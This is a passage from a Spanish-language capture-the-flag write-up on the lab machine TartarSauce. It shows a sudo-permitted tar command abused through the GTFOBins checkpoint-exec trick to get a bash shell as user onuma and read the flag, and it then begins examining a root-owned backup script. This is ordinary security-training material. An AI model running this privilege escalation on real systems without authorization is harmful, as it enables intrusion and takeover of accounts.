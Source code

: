 ```console
www-data@TartarSauce:/$ sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```
mmmmmm...interesante que onuma pueda ejecutar tar, para esto me iré a [GTFOBins](https://gtfobins.github.io/) y ver como escalar nuestro privilegio como onuma, filtrando por tar vemos acceso a shell de varias formas
(https://gtfobins.github.io/gtfobins/tar/#shell)
intentaré con la primera solo que en lugar de una sh quiero tener la terminal en una bash
```console
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```
ahora si ejecutamos tar como onuma  podremos tener la shell como el usuario onuma y ahora si leer nuestra primera flag:)

```console
www-data@TartarSauce:/$ sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
tar: Removing leading `/' from member names
onuma@TartarSauce:/$ whoami
onuma
onuma@TartarSauce:/$ find /home \-name \*.txt | xargs cat
04891dd10bf444772c1ff79ef5ab2138
```
## Privilege Escalation - Post Exploitation 
Hasta este punto tuve que pasar linpeas y en la parte de procesos logre apreciar un backuper un poco extraño ya que dicha tarea no se estaba ejecutando como el usuario onuma eso me hace pensar que se ejecuta como root

![](/assets/img/commons/TartarSauce/terminal5.png)
y efectivamente vemos que se localiza en la carpeta sbin el script por lo tanto el propietario es root y la tarea que se ejcuta en cierto tiempo es de un root
```console
onuma@TartarSauce:/tmp$ ls -l /usr/sbin/backuperer
-rwxr-xr-x 1 root root 1701 Feb 21  2018 /usr/sbin/backuperer
```